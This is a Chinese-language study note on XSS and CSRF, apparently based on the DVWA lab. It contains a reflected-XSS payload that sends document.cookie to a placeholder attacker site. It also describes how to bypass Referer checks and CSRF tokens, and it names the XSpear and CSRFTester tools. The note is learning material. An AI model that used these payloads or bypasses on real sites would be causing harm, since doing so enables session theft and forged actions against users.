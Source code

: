 # XSS与CSRF总结

## **对于XSS的理解(盗取cookie)**

跨站脚本攻击（Cross Site Scripting），就是查看目标站点能否插入并执行javascript,VBscrip，java等脚本代码。**[用户对指定站点的信任]**

首先目标站点存在XSS的漏洞，用户登录到目标站点后，访问一个包含恶意代码的链接，该链接返回携带的恶意代码，浏览器进行解析。在解析恶意代码的时候，就可以获取当前目标站点页面的cookie，并且发生页面跳转。

document.cookie只能获取当前目标站点的cookie,并不是浏览器的所有cookie。
如果再cookie中发现了，http only 说明document.cookie是没有效果的，即不能够从浏览器中获取到cookie，因为此时的cookie保存在服务端。

利用目标站点存在xss漏洞，需要在当前站点的基础之上，点击恶意链接运行恶意代码。（之前以为恶意链接是随意的一个地址，后来发现获取cookie。doucument.cookie必须在当前站点之中才有效果，所以在当前站点的基础之上，再执行恶意代码）

例如：
http://192.168.0.4/dvwa/vulnerabilities/xss_r/ 该站点存在xss(反射性)。我们构造的恶意链接也必然满足：
http://192.168.0.4/dvwa/vulnerabilities/xss_r/ ?name=<script>document.location='黑客站点?cookie='+document.cookie</script>

## **对于CSRF的理解(利用cookie)**

**跨站请求伪造**（Cross-site request forgery），也被称为 **one-click attack** 或者 **session riding**，通常缩写为 **CSRF** 或者 **XSRF**， 是一种挟制用户在当前已登录的Web应用上执行非本意的操作的攻击方法。**[网站对用户网页浏览器的信任]**

简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。

利用CSRF漏洞防御的两种方法。

- 校验Referer

利用**stripos() 函数**比较Referer中是否含有本站的主机名。解决思路：让Referer携带上uri。设置黑客伪造的恶意站点的路径，将目标站点的主机名称或者域名设置为伪造站点的路径，这样当用户在访问恶意链接（黑客伪造的恶意站点）就会在Referer中携带上目标站点的主机名或者域名。

在伪造站点的url添加参数，解决思路：让Referer携带上uri。如伪造站点xxx.html，在末尾添加目标站点的主机名或者域名，即xxx.html?xyxyx(xx.com)，这样在Referer中就存在了目标网站的主机名或者域名.

- 验证token，

利用js代码获取token，完成操作。其实代码的框架就是一个 AJAX 的操作。 AJAX 是一种在无需重新加载整个网页的情况下，能够更新部分网页的技术。通过 XMLHttpRequest 在页面中加载 csrf 页面然后获取到新的 token 进行提交数据。

## 自动化检测工具

XSS：**XSpear**
在kali中安装：`gem install XSpear`
运行语法：`XSpear pear -u [target] -[options][value]`


CRSF：**CRSFTester**
首先设置浏览器代理
然后运行CSRFTester，然后将捕获到的数据包中，修改参数值然后保存在本地，保持目标站点的登录，然后运行保存的html。查看站点是否发生变化。



